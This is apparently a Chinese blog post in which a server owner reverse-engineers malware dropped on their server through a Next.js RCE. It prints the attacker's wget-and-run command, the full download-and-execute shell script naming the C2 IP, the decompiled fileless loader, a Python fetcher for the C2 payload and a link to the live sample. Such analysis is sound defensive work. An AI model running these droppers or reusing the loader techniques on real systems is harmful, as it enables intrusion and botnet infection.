




# 背景
周六傍晚休息的时候阿里云突然给打电话，说服务器可能受到黑客入侵。上阿里云控制台看了一眼：


担心的事情还是发生了，近期披露的CVE-2025-55182漏洞可以被RCE，服务器上运行的Umami统计工具使用了包含漏洞的Next.JS版本。早上的时候我手动更新了一下我的Umami，但是看起来官方还并未发布相关更新。服务器告警来源就是umami镜像，执行了一个远程的Shell脚本。  
~~作为一个CTFer，这送上门的样本不研究一下说不过去吧（~~

# 分析
## 脚本
阿里云给出的警告可以看到执行shell脚本：
```shell
/bin/sh -c wget https://sup001.oss-cn-hongkong.aliyuncs.com/123/python1.sh && chmod 777 python1.sh && ./python1.sh
```
尝试手动下载下来那个`python1.sh`：
```shell
export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
mkdir -p /tmp
cd /tmp
touch /usr/local/bin/writeablex >/dev/null 2>&1 && cd /usr/local/bin/
touch /usr/libexec/writeablex >/dev/null 2>&1 && cd /usr/libexec/
touch /usr/bin/writeablex >/dev/null 2>&1 && cd /usr/bin/
rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex
export PATH=$PATH:$(pwd)

l64="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=l64&stage=true"
l32="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=l32&stage=true"
a64="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=a64&stage=true"
a32="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=a32&stage=true"

v="042d0094tcp"
rm -rf $v

ARCH=$(uname -m)
if [ ${ARCH}x = "x86_64x" ]; then
    (curl -fsSL -m180 $l64 -o $v||wget -T180 -q $l64 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l64'", "'$v'")')
elif [ ${ARCH}x = "i386x" ]; then
    (curl -fsSL -m180 $l32 -o $v||wget -T180 -q $l32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l32'", "'$v'")')
elif [ ${ARCH}x = "i686x" ]; then
    (curl -fsSL -m180 $l32 -o $v||wget -T180 -q $l32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l32'", "'$v'")')
elif [ ${ARCH}x = "aarch64x" ]; then
    (curl -fsSL -m180 $a64 -o $v||wget -T180 -q $a64 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "'$v'")')
elif [ ${ARCH}x = "armv7lx" ]; then
    (curl -fsSL -m180 $a32 -o $v||wget -T180 -q $a32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "'$v'")')
fi

chmod +x $v
(nohup $(pwd)/$v > /dev/null 2>&1 &) || (nohup ./$v > /dev/null 2>&1 &) || (nohup /usr/bin/$v > /dev/null 2>&1 &) || (nohup /usr/libexec/$v > /dev/null 2>&1 &) || (nohup /usr/local/bin/$v > /dev/null 2>&1 &) || (nohup /tmp/$v > /dev/null 2>&1 &)
#
```
发现是根据CPU架构下载对应版本的ELF文件。

## 加载器
尝试手动下载上面脚本中的amd64架构的二进制，并通过IDA Pro打开：


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  struct hostent *v3; // rax
  in_addr_t v4; // eax
  int v5; // eax
  int v6; // ebx
  int v7; // r12d
  int v8; // edx
  _BYTE *v9; // rax
  __int64 v10; // rcx
  _DWORD *v11; // rdi
  _BYTE buf[2]; // [rsp+2h] [rbp-1476h] BYREF
  int optval; // [rsp+4h] [rbp-1474h] BYREF
  char *argva[2]; // [rsp+8h] [rbp-1470h] BYREF
  sockaddr addr; // [rsp+1Ch] [rbp-145Ch] BYREF
  char name[33]; // [rsp+2Fh] [rbp-1449h] BYREF
  char resolved[1024]; // [rsp+50h] [rbp-1428h] BYREF
  _BYTE v19[4136]; // [rsp+450h] [rbp-1028h] BYREF

  if ( !access("/tmp/log_de.log", 0) )
    exit(0);
  qmemcpy(name, "119.45.243.154", sizeof(name));
  *(_QWORD *)&addr.sa_family = 4213178370LL;
  *(_QWORD *)&addr.sa_data[6] = 0LL;
  v3 = gethostbyname(name);
  if ( v3 )
    v4 = **(_DWORD **)v3->h_addr_list;
  else
    v4 = inet_addr(name);
  *(_DWORD *)&addr.sa_data[2] = v4;
  v5 = socket(2, 1, 0);
  v6 = v5;
  if ( v5 >= 0 )
  {
    optval = 10;
    setsockopt(v5, 6, 7, &optval, 4u);
    while ( connect(v6, &addr, 0x10u) == -1 )
      sleep(0xAu);
    send(v6, "l64   ", 6uLL, 0);
    buf[0] = addr.sa_data[0];
    buf[1] = addr.sa_data[1];
    send(v6, buf, 2uLL, 0);
    send(v6, name, 0x20uLL, 0);
    v7 = syscall(319LL, "a", 0LL);
    if ( v7 >= 0 )
    {
      while ( 1 )
      {
        v8 = recv(v6, v19, 0x1000uLL, 0);
        if ( v8 <= 0 )
          break;
        v9 = v19;
        do
          *v9++ ^= 0x99u;
        while ( (int)((_DWORD)v9 - (unsigned int)v19) < v8 );
        write(v7, v19, v8);
      }
      v10 = 1024LL;
      v11 = v19;
      while ( v10 )
      {
        *v11++ = 0;
        --v10;
      }
      close(v6);
      realpath(*argv, resolved);
      setenv("CWD", resolved, 1);
      argva[0] = "[kworker/0:2]";
      argva[1] = 0LL;
      fexecve(v7, argva, _bss_start);
    }
  }
  return 0;
}
```
分析发现主要的几个危险操作：
1. `v7 = syscall(319LL, "a", 0LL);`，`319`是Linux x64架构下的`memfd_create`系统调用，用于在内存中创建匿名文件。随后，从目标服务器下载Payload，加载到这段内存中并执行。这是一个Fileless Malware，他不会将payload存储在磁盘中，而是直接加载进内存。
2. `*v9++ ^= 0x99u;`，将从服务器下载到的Payload按字节异或`0x99`，进行解密，可能是用于绕过防火墙
3. `argva[0] = "[kworker/0:2]";`，将本进程伪装成内核的kworker进程

其他操作：
1. 通过检测是否存在日志文件`/tmp/log_de.log`，判断服务器是否已经被入侵，若已经被入侵则直接退出
2. 连接C2服务器完成或失败后会间隔10秒再次尝试连接并加载Payload

从上述逆向代码可很明显的看出发马的服务器IP为`119.45.243.154`，但是端口没找到。分析一下设置端口部分的代码：
```c
*(_QWORD *)&addr.sa_family = 4213178370LL;
```
其中，`4213178370LL`(DEC)=`0xFB200002`(HEX)，因为是QWORD，即64位值，所以实际值为`0x00000000FB200002`。同时因为是小端序，所以实际存储在内存的offset中的格式是`02 00 20 FB 00 00 00 00`。  
`sockaddr`在内存中的offset一般是：
* offset 0–1：sa_family（2 字节）
* offset 2–15：sa_data（14 字节）

也就是说，上述赋值语句实现了：
1. offset 0: `sa_family`的低字节=`0x02`
2. offset 1: `sa_family`的高字节=`0x00`
3. offset 2: `sa_data[0]`=`0x20`
4. offset 3: `sa_data[1]`=`0xFB`
5. offset 4..7: `sa_data[2..5]`=`0x00 0x00 0x00 0x00`
其中，`sa_data[0..1]`代表了端口，`sa_data[2..5]`代表IP。因为网络字节序为大端序，因此实际端口就是`0x20FB`，即`8443`。后面也可找到赋值IP的部分：
```c  
v3 = gethostbyname(name);
if ( v3 )
  v4 = **(_DWORD **)v3->h_addr_list;
else
  v4 = inet_addr(name);
*(_DWORD *)&addr.sa_data[2] = v4;
```

编写一个Python脚本，按照这个加载器中的逻辑连接服务器并尝试加载Payload到ELF文件：
```python
import socket
import time
import os

C2_HOST = "119.45.243.154"
C2_PORT = 8443

OUTPUT_FILE = "payload.elf"

def xor_decode(data):
    return bytes([b ^ 0x99 for b in data])

def main():
    # 删除旧的文件
    if os.path.exists(OUTPUT_FILE):
        os.remove(OUTPUT_FILE)

    while True:
        try:
            print(f"[+] Connecting to C2 {C2_HOST}:{C2_PORT} ...")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((C2_HOST, C2_PORT))
            print("[+] Connected.")

            # Handshake
            s.send(b"l64   ")
            s.send(b"\x20\xfb")  # fake port
            s.send(b"119.45.243.154".ljust(32, b"\x00"))

            print("[+] Handshake sent.")
            print(f"[+] Writing decrypted ELF data to {OUTPUT_FILE}\n")

            with open(OUTPUT_FILE, "ab") as f:
                while True:
                    data = s.recv(4096)
                    if not data:
                        print("[-] C2 closed connection.")
                        break

                    decrypted = xor_decode(data)
                    f.write(decrypted)

                    print(f"[+] Received {len(data)} bytes, written to file.")

            print("[*] Reconnecting in 10 seconds...\n")
            time.sleep(10)

        except Exception as e:
            print(f"[-] Error: {e}")
            print("[*] Reconnecting in 10 seconds...\n")
            time.sleep(10)

if __name__ == "__main__":
    main()
```
运行可得到一个ELF文件`payload.elf`。

## Payload.elf
先丢到微步云沙箱里检测一下，发现确实是个木马：


但是沙箱并未检测出一些高危行为。问了一下Reverse方向的学长，把样本发给对方研究了一下发现是Golang编写的。使用GoReSym导出符号表，并加载进IDA Pro：
```cmd
\GoReSym.exe payload.elf > symbols.json
```
让AI编写一个IDA Pro的脚本导入符号表：
```python
import json
import idc
import idaapi
import idautils

# ⚠️ 修改这里：指向你刚才生成的 symbols.json 文件路径
json_path = r"D:\\Desktop\\symbols.json" 

def restore_symbols():
    print("[-] Loading symbols from JSON...")
    try:
        with open(json_path, 'r', encoding='utf-8') as f:
            data = json.load(f)
    except Exception as e:
        print(f"[!] Error opening file: {e}")
        return

    # 1. 恢复用户函数 (UserFunctions)
    count = 0
    for func in data.get('UserFunctions', []):
        start_addr = func['Start']
        # 你的 JSON 里全是混淆名字，比如 shK3zqV.O86rtPRpp
        # 我们主要关心完整的 FullName
        full_name = func['FullName']
        
        # 清理名称中 IDA 不喜欢的字符
        safe_name = full_name.replace("(", "_").replace(")", "_").replace("*", "ptr_").replace("/", "_")
        
        # 尝试重命名
        if idc.set_name(start_addr, safe_name, idc.SN_NOWARN | idc.SN_NOCHECK) == 1:
            # 可选：如果重命名成功，尝试让 IDA 重新分析该处为代码
            idc.create_insn(start_addr)
            idc.add_func(start_addr)
            count += 1
            
    print(f"[+] Successfully renamed {count} functions.")

if __name__ == "__main__":
    restore_symbols()
```
在IDA中通过`File`-`Script file`选择上述脚本即可导入符号表。同时，将符号表发给AI分析，发现存在一些对OSS存储桶的一些操作函数：
* `(*Config).GetAccessKeyID` / `GetAccessKeySecret` / `GetSecurityToken` -> **窃取或使用云凭证**。
* `Bucket.PutObjectFromFile` -> **上传文件**（极可能是在窃取你服务器上的数据并上传到攻击者的 OSS Bucket）。
* `Bucket.DoPutObject` -> 执行上传操作。
* `(*Config).LimitUploadSpeed` / `LimitDownloadSpeed` -> 限制带宽占用，防止被你发现网络异常。


| 混淆后的包名 | 真实包/功能推测 | 证据 (Artifacts) | 行为描述 |
| :--- | :--- | :--- | :--- |
| **`ojQuzc_T`** | **Aliyun OSS SDK** | `PutObjectFromFile`, `GetAccessKeySecret` | 连接阿里云 OSS，上传/下载文件，窃取凭证。 |
| **`l2FdnE6`** | **`os/exec` (命令执行)** | `(*Ps1Jpr8w8).Start`, `StdinPipe`, `Output` | **执行系统命令**。它在调用 Linux shell 命令。 |
| **`qzjJr5PCHfoj`** | **`os` / 文件系统操作** | `Readdir`, `Chown`, `Truncate`, `SyscallConn` | 遍历目录、修改文件权限、读写文件。 |
| **`PqV1YDIP`** | **`godbus/dbus` (D-Bus)** | `(*Conn).BusObject`, `(*Conn).Eavesdrop` | 连接 Linux D-Bus。可能用于**权限提升**、监控系统事件或与 `systemd` 交互。 |
| **`c376cVel0vv`** | **`math/rand`** | `NormFloat64`, `Shuffle`, `Int63` | 生成随机数。常用于生成通信密钥或挖矿算法的随机性。 |
| **`r_zJbsaQ`** | **`net` (网络底层)** | `DialContext`, `Listen`, `Accept`, `SetKeepAlive` | 建立 TCP/UDP 连接，可能是 C2 通信或作为后门监听端口。 |
| **`J9ItGl7U`** | **`net/http2`** | `http2ErrCode`, `WriteHeaders`, `WriteData` | 使用 HTTP/2 协议进行通信（可能用于隐藏 C2 流量）。 |
| **`Otkxde`** | **ECC 密码学库** | `ScalarMult`, `Double`, `SetGenerator` | 椭圆曲线加密。可能是为了加密 C2 通信，或者是**勒索软件**的加密模块。 |

可推测一些可能的程序逻辑：

1.  **持久化与控制 (D-Bus & Net):**
    * 它尝试通过 `PqV1YDIP` 包连接 D-Bus，这在服务器恶意软件中较少见，可能试图劫持系统服务或监控管理员行为。
    * 它通过 `r_zJbsaQ` 监听端口或反弹连接。

2.  **数据窃取 (Aliyun OSS):**
    * 它并没有将数据传回普通的 C2 服务器 IP，而是利用阿里云 OSS 作为“中转站”。这是一种非常聪明的做法，因为指向阿里云的流量通常会被防火墙视为白名单流量，很难被发现。

3.  **命令执行 (os/exec):**
    * 它包含完整的 Shell 执行能力 (`l2FdnE6`)，可以执行任意命令、下载脚本、修改文件权限。

4.  **可能的勒索或挖矿特征:**
    * 大量的数学运算库（`Otkxde`, `HfBi9x4DOLl` 等包包含大量的 `Mul`, `Add`, `Square`, `Invert`）暗示了它是 **计算密集型** 的。
    * 如果是**勒索软件**：这些数学库用于生成密钥加密文件。
    * 如果是**挖矿木马**：这些库用于计算哈希。结合它使用了 `math/rand` 的 `Shuffle` 和 `NormFloat64`，这符合某些挖矿算法（如 RandomX）的特征。

进一步分析，最终找到了这样一个函数`UXTgUQ_stlzy_RraJUM`：


丢给AI分析，结论是：

这是一个非常典型的 **Golang 编写的 C2 (Command & Control) 指令分发函数**。

结合你之前提供的“Linux 加载器”上下文，这个函数属于被那个加载器下载并执行的**核心木马程序（Bot）**。

### 1. 代码总览与定位
* **功能**: **指令分发器 (Command Dispatcher)**。这是木马的主循环逻辑之一，负责接收 C2 服务器发送的指令字符串，解析并执行对应的恶意功能。
* **安全机制**: 函数开头有一个鉴权检查 `if ( v18 == a2 && (unsigned __int8)sub_4035C0() )`。如果校验失败，直接返回 `"401 Not Auth"`，说明该木马具有一定的反扫描或会话认证机制。

### 2. 指令集详细逆向
代码通过 `switch ( a4 )` 判断指令字符串的长度，然后检查具体的内容。这里有大量的硬编码字符串和 Hex 值：

#### **Case 1 (单字符指令 - 基础控制)**
这通常是早期版本残留或为了减少流量设计的简写指令：
* **`I`**: 调用 `os_rename`。功能：**重命名文件**。
* **`E`**: 调用 `os_removeAll`。功能：**删除文件/清理痕迹**。
* **`J`**: 返回 "0" 或未知。可能用于心跳检测或状态查询。
* **`Z`**: 返回 `"mysql_close\t1"`。功能：**数据库相关**，推测该木马包含 MySQL 爆破或连接模块，此指令用于关闭连接。
* **`H`**: 可能是获取主机信息 (Host Info)。
* **其他单字母 (A-Y)**: 分别调用了不同的子函数（如 `sub_7CAF40` 等），通常对应：开启代理、执行 Shell 命令、获取系统负载等。

#### **Case 4 (四字符指令)**
* Hex: `1414092869` -> Little Endian: `0x54495845` -> **"EXIT"**
* **功能**: 终止木马进程。

#### **Case 8 (八字符指令 - 核心功能)**
这是最关键的部分，暴露了木马的核心能力：
1.  **`Download`**
    * Hex: `0x64616F6C6E776F44LL` -> **"Download"**
    * **功能**: 下载器功能。从指定 URL 下载文件。
    * **代码逻辑**: 如果 `a11` (回调函数或接口) 存在，它会调用并处理下载结果。
2.  **`LocalRun`**
    * Hex: `0x6E75526C61636F4CLL` -> **"LocalRun"**
    * **功能**: **本地执行**。可能是执行本地的一个 Shell 脚本或二进制文件。

#### **Case 9 (九字符指令 - 高级攻击)**
1.  **`InjectRun`**
    * Hex: `0x75527463656A6E49LL` + `'n'` -> **"InjectRun"**
    * **功能**: **内存注入执行**。这是一个高级功能，配合你之前看到的 `memfd_create`，这通常指将 Payload 注入到其他进程或在内存中直接运行，不落地。
2.  **`PluginRun`**
    * Hex: `0x75526E6967756C50LL` + `'n'` -> **"PluginRun"**
    * **功能**: **插件执行**。说明该木马是**模块化**的，可以动态加载 `.so` 或 Go 的 `plugin` 模块来扩展功能（如加密货币挖矿、DDoS 攻击、端口扫描等）。

### 3. 响应构造逻辑
在 `switch` 结束后，代码有一段复杂的字符串拼接逻辑：
* `*(_WORD *)v71 = 15917` -> ASCII `|` 和 `}` ? 或者特定的分隔符。
* `*(_BYTE *)(v80 + v79 + 2) = 45` -> ASCII `-`。
* **结论**: 木马会将命令执行的结果（如“OK”、“Error”或具体数据）用特定的分隔符（如 `|<result>-`）包裹后回传给 C2。

### 4. 总结与画像

结合上一段代码（Loader），我们可以对这个木马做一个完整的画像：

* **家族推测**: 这种 **InjectRun / PluginRun / LocalRun** 的命名风格，以及 Golang 编写、支持模块化插件的特征，极有可能是 **Spark** 僵尸网络或者其变种（如 **Sliver** C2 修改版，但更像黑产自研的 Bot）。也有可能是 **Sysrv-hello** 挖矿蠕虫的变种（它们常混合使用 Go 和 Exploit）。
* **攻击链条**:
    1.  **Loader**: 也就是之前的那个 C 代码，负责环境判断、持久化、内存中下载 Bot。
    2.  **Bot (本代码)**: 也就是这个 Go 程序，常驻内存。
    3.  **Modules**: 通过 `PluginRun` 动态下发挖矿模块 (XMRig) 或 DDoS 攻击模块。
    4.  **Lateral Movement (横向移动)**: `mysql_close` 暗示它有扫描弱口令的能力，通过 `InjectRun` 感染内网其他机器。

# 总结
主要是感觉没什么继续分析的意义了，这个逻辑基本上可以判定是典型的Botnet，找到的IP有99%的概率都是被操控的僵尸机，去调查也没有意义。  
主要还是总结一下教训，如何防止这类事情发生，对于我这种小规模的个人网站，爆出CVE最好立刻先停用有关一切服务，等确定修复的版本放出后再更新并重新启用

----
样本下载：
* [Payload.zip](https://drive.iyoroy.cn/Misc/%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A2%AB%E6%8C%82RCE%E7%9A%84%E9%80%86%E5%90%91%E5%88%86%E6%9E%90%E7%BB%8F%E5%8E%86/Payload.zip)

__注：此样本未经任何处理，请勿在不加安全措施的情况下直接运行！__
密码`20251206`